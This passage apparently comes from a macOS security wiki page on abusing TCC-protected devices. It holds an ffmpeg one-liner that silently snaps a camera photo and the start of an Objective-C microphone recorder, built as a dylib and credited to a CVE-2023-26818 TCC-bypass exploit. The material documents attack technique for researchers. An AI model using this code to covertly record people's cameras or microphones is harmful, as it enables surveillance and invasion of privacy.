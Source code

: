 ```objectivec
    freopen("/tmp/logs.txt", "a", stderr);
    [CameraAccessChecker hasCameraAccess];
    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Take a photo with the camera

```bash
ffmpeg -framerate 30 -f avfoundation -i "0" -frames:v 1 /tmp/capture.jpg
```
{% endtab %}
{% endtabs %}

### Microphone

* **Entitlement**: **com.apple.security.device.audio-input**
* **TCC**: `kTCCServiceMicrophone`

{% tabs %}
{% tab title="ObjetiveC - Record" %}
Record 5s of audio an store it in `/tmp/recording.m4a`

```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// Code from https://www.vicarius.io/vsociety/posts/cve-2023-26818-exploit-macos-tcc-bypass-w-telegram-part-1-2
// gcc -dynamiclib -framework Foundation -framework AVFoundation Micexploit.m -o Micexploit.dylib

@interface AudioRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>

@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *audioDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *audioFileOutput;

- (void)startRecording;
- (void)stopRecording;

@end

@implementation AudioRecorder

- (instancetype)init {
    self = [super init];
    if (self) {
        [self setupCaptureSession];
    }
    return self;
}

- (void)setupCaptureSession {
    self.captureSession = [[AVCaptureSession alloc] init];
    self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;

    AVCaptureDevice *audioDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeAudio];
    NSError *error;
    self.audioDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:audioDevice error:&error];

    if (error) {
        NSLog(@"Error setting up audio device input: %@", [error localizedDescription]);
        return;
    }
```